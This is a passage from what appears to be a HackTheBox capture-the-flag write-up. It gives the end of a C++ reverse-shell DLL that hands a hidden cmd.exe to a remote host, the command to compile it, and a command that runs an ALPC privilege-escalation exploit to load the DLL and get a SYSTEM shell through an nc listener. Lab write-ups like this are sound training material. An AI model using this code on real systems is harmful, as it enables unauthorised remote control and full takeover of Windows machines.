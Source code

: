 ```cpp
	hints.ai_family = AF_UNSPEC;
	hints.ai_socktype = SOCK_STREAM;
	hints.ai_protocol = IPPROTO_TCP;
	getaddrinfo(REMOTE_ADDR, REMOTE_PORT, &hints, &result);
	ptr = result;
	SOCKET ConnectSocket = WSASocket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol, NULL, NULL, NULL);	
	connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_HIDE;
	si.hStdInput = (HANDLE)ConnectSocket;
	si.hStdOutput = (HANDLE)ConnectSocket;
	si.hStdError = (HANDLE)ConnectSocket;
	TCHAR cmd[] = TEXT("C:\\WINDOWS\\SYSTEM32\\CMD.EXE");
	CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL,	NULL, &si, &pi);
	WaitForSingleObject(pi.hProcess, INFINITE);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	WSACleanup();
}
```
We need to change `Port` and `IP` and compile the `dll`.
```
x86_64-w64-mingw32-g++ rs.cpp -o rs.dll -lws2_32 -shared
```

Then transfer the `dll`(rs.dll) and the binary (alpc.exe) to the machine and then execute them .
```
cmd /c alpc.exe rs.dll .\lol.rtf
```
After executing the command it freezes and .
```
PS C:\tmp> cmd /c alpc.exe rs.dll .\lol.rtf

```
Checking our `nc` listener we get shell as `SYSTEM`.

![](/assets/images/htb-writeup-conceal/system.png)
